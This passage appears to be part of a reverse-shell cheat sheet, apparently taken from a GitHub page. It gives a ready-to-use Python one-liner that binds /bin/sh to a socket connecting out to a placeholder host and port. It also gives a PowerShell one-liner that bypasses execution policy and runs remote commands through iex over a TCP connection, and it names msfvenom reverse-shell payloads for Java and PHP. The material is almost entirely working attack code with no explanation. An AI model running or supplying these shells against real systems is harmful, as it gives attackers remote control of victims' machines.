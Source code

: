 ### *nix with bash (shell runs in foreground and halts subsequent execution until shell is terminated)
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[HOST]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


## Powershell

### Execute in foreground
```
powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('[HOST]',[PORT]);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


## Java

### MSFvenom payloads
* java/jsp_shell_reverse_tcp
* java/shell_reverse_tcp


## PHP

### MSFvenom payloads 
* php/shell_reverse_tcp

